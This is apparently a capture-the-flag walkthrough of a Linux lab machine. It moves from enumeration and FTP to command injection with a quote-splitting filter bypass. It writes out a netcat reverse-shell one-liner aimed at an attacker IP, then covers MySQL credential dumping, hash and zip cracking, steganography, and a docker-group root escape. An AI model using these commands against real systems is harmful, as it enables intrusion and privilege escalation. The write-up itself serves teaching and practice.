

# Enumeration

We begin with full nmap scan followed by a detailed scan.


Since we have anonymous access to the ftp server, we can take a look. There, we fine a `note.txt` file.




Let's investigate the web server. A quick gobuster scan reveals a `/secret` directory, which we can seemingly use for command injection.

<br>

# Exploitation


Trying out, for instance, the `id` command gives us a result.


However, as indicated by the note we found, there is a filter on the commands we are allowed to input. For instance, attempting to use `cat` or `python` yields an error. The source codes reveals the forbidden commands:


One way to bypass this is to use double quotations. For instance, instead of `ls` we can execute `l"s"`, and we see that this works.


Now let's use the above method to execute a command to spawn a reverse shell using one of [these one-liners](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Set up a netcat listener. We use:

```txt
r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker IP> 9999 >/tmp/f
```

This goes through, and we catch our reverse shell.


If we look around in the `/var/www` directory, we eventually find a `/files` subdirectory. The `index.php` file there contains some mysql credentials.


We can use this to access the mysql database as the root user.


Use `show databases;` to list the available databases. The `webportal` database looks interesting; execute `use webportal;` to change into that database. Using `show tables;` we find a `users` table; we get the columns with `describe users;`.


Now use `select * from users` to get all the information from the `users` table.


We get the information of two users with what appear to be hashed passwords. Running the hashes through a hash identifier, we determine that they are MD5 hashes. Now, we can either use a tool like hashcat to crack the hashes, or we can just use an online tool like [CrackStation](https://crackstation.net/). The latter immediately gets us the two passwords.


Unfortunately, this seems to be a rabbit hole -- none of the passwords we found work for either ftp or ssh. We'll move on for now.

Within the same directory as the `index.php` file, we also found a `hacker.php` file. Catting it out reveals what looks like a hint.


The image referenced in the source code is in the `/images` subdirectory. Let's pull it to our local machine by setting up an http server on the target with python. Opening the image reveals that it is, indeed, a photo of a hacker with a laptop.


Since the hint told us to look in the dark, this suggests using some [steganography tools](https://0xrick.github.io/lists/stego/). We'll try steghide.


When prompted for a password, we try pressing enter (since we don't have a password). Surprisingly, this works; a `backup.zip` file is extracted. Unfortunately, we don't have the password needed to unzip it.


To get around this, we can use john. First, let's use `zip2john backup.zip > backup.txt` to convert the zip file, then we use john to crack the password.


Now we can unzip the file to obtain a `source_code.php` file. Catting it out reveals a base64-encoded password for (presumably) anurodh, which we easily decode.


This turns out to be anurodh's ssh password.


<br>

# Post-Exploitation

We can ssh in as anurodh, but unfortunately we still don't have access to any flags. However, using `id` we see that anurodh is part of the docker group.


Checking [GTFOBins](https://gtfobins.github.io/gtfobins/docker/), we see that we can use this to escape to a root shell. Simply run `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`.


Just like that, we're root! Let's get a better shell with `python3 -c 'import pty;pty.spawn("/bin/bash")'`.  Looking around, we easily find the two flags.


Note that there is an alternative method we can use to obtain the `local.txt` flag. Once we gain initial access as the www-data user, we can find the first glag in apaar's home directory. Unfortunately, we don't have access. If we use `sudo -l`, we see that we can run a script in apaar's home directory using apaar's privileges.


Observse that we are given two inputs; the `$msg`  input is sent to `/dev/null`. We can use this to elevate our privileges to that of apaar by inputting `/bin/bash` for the second input. This spawns a shell as apaar. We can then read the `local.txt` flag.

